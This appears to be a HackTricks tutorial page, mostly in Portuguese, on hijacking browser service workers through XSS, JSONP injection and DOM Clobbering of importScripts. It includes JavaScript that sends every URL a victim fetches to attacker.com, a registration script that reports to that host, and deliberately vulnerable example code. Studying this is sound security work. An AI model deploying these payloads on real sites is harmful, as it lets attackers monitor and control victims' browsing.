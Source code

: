 # Abusing Service Workers

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

Um **service worker** é um script executado pelo seu navegador em segundo plano, separado de qualquer página da web, permitindo recursos que não requerem uma página da web ou interação do usuário, melhorando assim as capacidades de **processamento offline e em segundo plano**. Informações detalhadas sobre service workers podem ser encontradas [aqui](https://developers.google.com/web/fundamentals/primers/service-workers). Ao explorar service workers dentro de um domínio web vulnerável, os atacantes podem obter controle sobre as interações da vítima com todas as páginas dentro desse domínio.

### Checking for Existing Service Workers

Os service workers existentes podem ser verificados na seção **Service Workers** da aba **Application** nas **Developer Tools**. Outro método é visitar [chrome://serviceworker-internals](https://chromium.googlesource.com/chromium/src/+/main/docs/security/chrome%3A/serviceworker-internals) para uma visão mais detalhada.

### Push Notifications

As **permissões de notificação push** impactam diretamente a capacidade de um **service worker** de se comunicar com o servidor sem interação direta do usuário. Se as permissões forem negadas, isso limita o potencial do service worker de representar uma ameaça contínua. Por outro lado, conceder permissões aumenta os riscos de segurança ao permitir a recepção e execução de possíveis exploits.

## Attack Creating a Service Worker

Para explorar essa vulnerabilidade, você precisa encontrar:

* Uma maneira de **carregar arquivos JS arbitrários** no servidor e um **XSS para carregar o service worker** do arquivo JS carregado
* Um **pedido JSONP vulnerável** onde você pode **manipular a saída (com código JS arbitrário)** e um **XSS** para **carregar o JSONP com um payload** que irá **carregar um service worker malicioso**.

No exemplo a seguir, vou apresentar um código para **registrar um novo service worker** que irá escutar o evento `fetch` e **enviar para o servidor dos atacantes cada URL buscada** (este é o código que você precisaria **carregar** no **servidor** ou carregar via uma **resposta JSONP vulnerável**):
```javascript
self.addEventListener('fetch', function(e) {
e.respondWith(caches.match(e.request).then(function(response) {
fetch('https://attacker.com/fetch_url/' + e.request.url)
});
```
E este é o código que irá **registrar o trabalhador** (o código que você deve ser capaz de executar abusando de um **XSS**). Neste caso, uma solicitação **GET** será enviada para o servidor dos **atacantes** **notificando** se o **registro** do trabalhador de serviço foi bem-sucedido ou não:
```javascript
<script>
window.addEventListener('load', function() {
var sw = "/uploaded/ws_js.js";
navigator.serviceWorker.register(sw, {scope: '/'})
.then(function(registration) {
var xhttp2 = new XMLHttpRequest();
xhttp2.open("GET", "https://attacker.com/SW/success", true);
xhttp2.send();
}, function (err) {
var xhttp2 = new XMLHttpRequest();
xhttp2.open("GET", "https://attacker.com/SW/error", true);
xhttp2.send();
});
});
</script>
```
No caso de abusar de um endpoint JSONP vulnerável, você deve colocar o valor dentro de `var sw`. Por exemplo:
```javascript
var sw = "/jsonp?callback=onfetch=function(e){ e.respondWith(caches.match(e.request).then(function(response){ fetch('https://attacker.com/fetch_url/' + e.request.url) }) )}//";
```
Há um **C2** dedicado à **exploração de Service Workers** chamado [**Shadow Workers**](https://shadow-workers.github.io) que será muito útil para abusar dessas vulnerabilidades.

A **diretiva de cache de 24 horas** limita a vida de um **service worker (SW)** malicioso ou comprometido a no máximo 24 horas após a correção de uma vulnerabilidade XSS, assumindo o status de cliente online. Para minimizar a vulnerabilidade, os operadores do site podem reduzir o Tempo de Vida (TTL) do script SW. Os desenvolvedores também são aconselhados a criar um [**kill-switch para service worker**](https://stackoverflow.com/questions/33986976/how-can-i-remove-a-buggy-service-worker-or-implement-a-kill-switch/38980776#38980776) para desativação rápida.

## Abusando de `importScripts` em um SW via DOM Clobbering

A função **`importScripts`** chamada de um Service Worker pode **importar um script de um domínio diferente**. Se essa função for chamada usando um **parâmetro que um atacante poderia** modificar, ele seria capaz de **importar um script JS de seu domínio** e obter XSS.

**Isso até contorna as proteções CSP.**

**Exemplo de código vulnerável:**

* **index.html**
```html
<script>
navigator.serviceWorker.register('/dom-invader/testcases/augmented-dom-import-scripts/sw.js' + location.search);
// attacker controls location.search
</script>
```
* **sw.js**
```javascript
const searchParams = new URLSearchParams(location.search);
let host = searchParams.get('host');
self.importScripts(host + "/sw_extra.js");
//host can be controllable by an attacker
```
### Com DOM Clobbering

Para mais informações sobre o que é DOM Clobbering, confira:

{% content-ref url="dom-clobbering.md" %}
[dom-clobbering.md](dom-clobbering.md)
{% endcontent-ref %}

Se a URL/domínio que o SW está usando para chamar **`importScripts`** estiver **dentro de um elemento HTML**, é **possível modificá-lo via DOM Clobbering** para fazer o SW **carregar um script do seu próprio domínio**.

Para um exemplo disso, confira o link de referência.

## Referências

* [https://portswigger.net/research/hijacking-service-workers-via-dom-clobbering](https://portswigger.net/research/hijacking-service-workers-via-dom-clobbering)

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
